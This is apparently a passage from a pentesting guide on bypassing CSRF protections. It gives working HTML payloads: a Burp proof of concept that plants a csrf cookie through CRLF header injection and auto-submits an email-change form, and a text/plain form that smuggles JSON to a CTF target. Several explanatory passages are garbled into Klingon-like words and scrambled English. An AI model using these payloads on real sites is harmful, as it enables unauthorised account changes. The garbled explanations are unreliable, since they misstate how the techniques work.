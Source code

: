 ### CSRF token is verified by a cookie

Applications may implement CSRF protection by duplicating the token in both a cookie and a request parameter or by setting a CSRF cookie and verifying if the token sent in the backend corresponds to the cookie. The application validates requests by checking if the token in the request parameter aligns with the value in the cookie.

However, this method is vulnerable to CSRF attacks if the website has flaws allowing an attacker to set a CSRF cookie in the victim's browser, such as a CRLF vulnerability. The attacker can exploit this by loading a deceptive image that sets the cookie, followed by initiating the CSRF attack.

Below is an example of how an attack could be structured:
```html
<html>
<!-- CSRF Proof of Concept - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://example.com/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="hidden" name="csrf" value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />
<input type="submit" value="Submit request" />
</form>
<img src="https://example.com/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" onerror="document.forms[0].submit();"/>
</body>
</html>

```
{% hint style="info" %}
ghobe' **csrf token** vItlhutlh cookie vItlhutlh **attack won't work** vaj **victim your session** set vItlhutlh, 'ej vaj vItlhutlh.
{% endhint %}

### Content-Type change

[**'ej**](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple\_requests) **POST** method **preflight** requests **avoid** **order** **according to** **Content-Type** values allowed **these**:

* **`application/x-www-form-urlencoded`**
* **`multipart/form-data`**
* **`text/plain`**

However, **severs logic may vary** **Content-Type** used **note that** so **values mentioned** **others** **`application/json`**_**,**_**`text/xml`**, **`application/xml`**_._

Example (from [here](https://brycec.me/posts/corctf\_2021\_challenges)) **JSON data** **sending** **text/plain** **as** vItlhutlh:
```html
<html>
<body>
<form id="form" method="post" action="https://phpme.be.ax/" enctype="text/plain">
<input name='{"garbageeeee":"' value='", "yep": "yep yep yep", "url": "https://webhook/"}'>
</form>
<script>
form.submit();
</script>
</body>
</html>
```
### Bypassing Preflight Requests for JSON Data
